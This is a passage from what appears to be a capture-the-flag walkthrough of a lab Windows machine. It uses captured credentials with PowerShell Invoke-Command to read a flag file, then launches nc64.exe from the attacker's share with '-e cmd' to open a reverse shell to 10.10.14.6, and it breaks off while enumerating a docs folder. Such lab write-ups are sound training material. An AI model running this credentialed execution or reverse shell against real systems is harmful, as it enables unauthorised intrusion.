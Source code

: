 Now I can use that same PowerShell to get `user.txt`:



    PS C:\inetpub\wwwroot\user> Invoke-Command -ScriptBlock { type \users\chris\desktop\user.txt } -Credential $cred -Computer localhost
    21f4d0f2************************



### Shell

To turn that into a shell, chris can run `nc`:



    PS C:\> Invoke-Command -ScriptBlock { \\10.10.14.6\share\nc64.exe -e cmd 10.10.14.6 443 } -Credential $cred -Computer localhost



And get a callback on my listener (always using `rlwrap` for Windows):



    root@kali# rlwrap nc -lnvp 443
    Ncat: Version 7.80 ( https://nmap.org/ncat )
    Ncat: Listening on :::443
    Ncat: Listening on 0.0.0.0:443
    Ncat: Connection from 10.10.10.151.
    Ncat: Connection from 10.10.10.151:57201.
    Microsoft Windows [Version 10.0.17763.678]
    (c) 2018 Microsoft Corporation. All rights reserved.

    C:\Users\Chris\Documents>whoami
    sniper\chris



## Priv: Chris --\> Administrator

### Enumeration

In the root of the C drive there's a folder `\docs` that iusr wasn't
able to access, but chris can. It contains several files:



    C:\Docs>dir
    dir
     Volume in drive C has no label.
     Volume Serial Number is 6A2B-2640

     Directory of C:\Docs

    10/09/2019  06:54 PM    <DIR>          .
    10/09/2019  06:54 PM    <DIR>          ..
    04/11/2019  09:31 AM               285 note.txt
    04/11/2019  09:17 AM           552,607 php for dummies-trial.pdf
                   2 File(s)        552,892 bytes
                   2 Dir(s)  17,957,249,024 bytes free

